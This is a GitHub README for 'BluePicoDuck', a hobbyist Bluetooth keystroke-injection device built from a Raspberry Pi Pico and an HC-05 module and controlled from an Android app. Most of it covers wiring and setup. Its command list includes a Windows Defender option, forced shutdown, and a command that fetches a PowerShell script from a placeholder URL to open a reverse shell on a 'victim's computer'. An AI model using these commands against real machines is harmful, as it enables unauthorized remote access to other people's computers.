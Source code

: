 # BluePicoDuck
Hi there, Its is a open-source pico ducky with bluetooth Version. It's gone be a community so if you have a idea or any changes do it and send to me or upload your self and post it in issue section.
<br>
<br>
<br>
<a href="professorp200@gmail.com"><img src="https://img.shields.io/badge/Gmail-D14836?style=for-the-badge&logo=gmail&logoColor=white"></a><br>
<a href="https://t.me/IAMTHEprofessor"><img src="https://img.shields.io/badge/Telegram-2CA5E0?style=for-the-badge&logo=telegram&logoColor=white"></a><br>
<h1>Discord id: professor#3976</h1>
<br>

## Disclaimer

**This is a tool.**  
**It's neither good nor bad.**  
**Use it to do good, to study, and to test.**  
**Never use it to do harm or create damage!**  

**The continuation of this project counts on you!** 

## About

This is a device which emulate keyboard and keyboard strokes. Because windows and other operating system consider these rubber duckys as keyboard and not storage device.
So, in that case windows trust rubber duck and keyboard. No privilage were added to rubber rucky. But speed matter's. Because a human can type in normal speed but rubber ducky will type 5x time faster than human. So time matter's.

We can do by using ducky scripts created by hack5. They are the founder of rubber ducky. and special thanks to them to be a inspiration for creating this project.
Let's Start to create your own BluePicoDuck.

## Hardware

This tool requires following hardware:  
* Raspberry Pi pico.
* Hc-05

That's it now let's go to step up raspbery pico and solder or make wiring in it.

## FLASHING

Install adafruit circuit python in raspberry pi pico:
<br>
<a href="https://adafruit-circuit-python.s3.amazonaws.com/bin/raspberry_pi_pico/en_GB/adafruit-circuitpython-raspberry_pi_pico-en_GB-6.3.0.uf2"><img src="https://img.shields.io/badge/Amazon_AWS-232F3E?style=for-the-badge&logo=amazon-aws&logoColor=whit"></a>

 ## Tutorial for installing circuit python in Raspberry Pi Pico.
 
 * First insert raspberry pi pico by pressing the white buton on the top.
 * Now, copy and paste the circuitpython file we downloaded .utf2 into raspberry pi pico.
 * Now it automatically disconnects and connect as partition circuit python.

Thats it we installed Circuit Python in Raspberry pi pico. We can to next Step

## Wiring Part

PCB Layout:
<br>
<img src="https://github.com/Pr0fe5s0r/BluePicoDuck/blob/main/images/7.png">

This is the Schematic of HC-05 and raspberry pi pico.

## Connection:
* HC05 --------- RASPBERRY PI PICO
* VCC  --------- 5V(VBUS)
* GND  --------- GND
* RXD  --------- GPO1
* TXD  --------- GP02

## Images for Under Standing:

1)<img src="https://github.com/Pr0fe5s0r/BluePicoDuck/blob/main/images/1.jpeg">
<br>
2)<img src="https://github.com/Pr0fe5s0r/BluePicoDuck/blob/main/images/2.jpeg">
<br>
3)<img src="https://github.com/Pr0fe5s0r/BluePicoDuck/blob/main/images/3.jpeg">
<br>
4)<img src="https://github.com/Pr0fe5s0r/BluePicoDuck/blob/main/images/4.jpeg">
<br>
5)<img src="https://github.com/Pr0fe5s0r/BluePicoDuck/blob/main/images/5.jpeg">
<br>
6)<img src="https://github.com/Pr0fe5s0r/BluePicoDuck/blob/main/images/6.jpeg">

## Coding Part:

There's a zip file called <h4><a href="https://github.com/Pr0fe5s0r/BluePicoDuck/blob/main/BluCode.zip">BlueCode</a></h4>

Extract it in a folder and copy them and paste it in Raspberry pi pico.

Thats it we are now ready to Go nxt!!

## Android App:

There zip file called <h4><a href="https://github.com/Pr0fe5s0r/BluePicoDuck/blob/main/app.zip">app</a></h4>

extract it and build with android studio. I will add tutorial videos at end for building android project.

* Build it and install it into android phone. ## (IF ANY ERROR OCCURS PLEASE ADD IT IN ISSUE TAB)
* Now open the and check it's all ok.

## Thats it. Final!!!!!!

Now Set uped everything lets test i programmed it based on passing arguments in it. 

Command's:

* (arg) D - wallpaper change
* D - rubber ducky wallpaper change
* A - Rick and roll
* W - windows Defender
* B - Shut Down the computer

* (arg) O - Open Notepad
* (arg) C - Type command on same line
* (arg) E C - Type command in new line

* (arg) R - Reverse shell with link. 

There are some buttons will show when you are conected to the device.

In the top button there is a text boxt with button send command. In that we pass arguments and values for example

* Hello bro O -------- Create a note pad and type Hello Bro
* Hello Bro E C -------- Create new line and type hello bro
* hello C ----------- simply type hello bro
* http://reverse-shell.com/reverseshell.ps1 R ------------- Create reverse shell in victim's computer.
* http://wallpaper.com/wallpaper.jpg D ------------ change wallpaper

Like that we can create our own payload in python in efficient way.

In future releases i will make it more simple. 

# Your are intrested lets Make it together. #

## Link's:

* https://www.youtube.com/watch?v=p0ItPcqqXog

#SOON TUTORIAL VIDEO FOR THIS WILL BE RELEASED IN YOUTUBE#
